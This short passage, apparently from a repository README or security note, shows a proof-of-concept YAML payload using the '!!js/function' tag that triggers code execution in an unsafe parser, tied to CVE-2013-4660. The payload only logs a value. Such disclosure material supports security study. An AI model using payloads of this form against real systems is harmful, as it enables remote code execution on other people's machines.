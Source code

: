 Perform remote code execution using the following payload
```
"test: !!js/function > \n  \
function f() { \n    \
console.log(1); \n  \
}();"
```

This vulnerability is CVE-2013-4660

To know more, go to the link:
https://nvd.nist.gov/vuln/detail/CVE-2013-4660
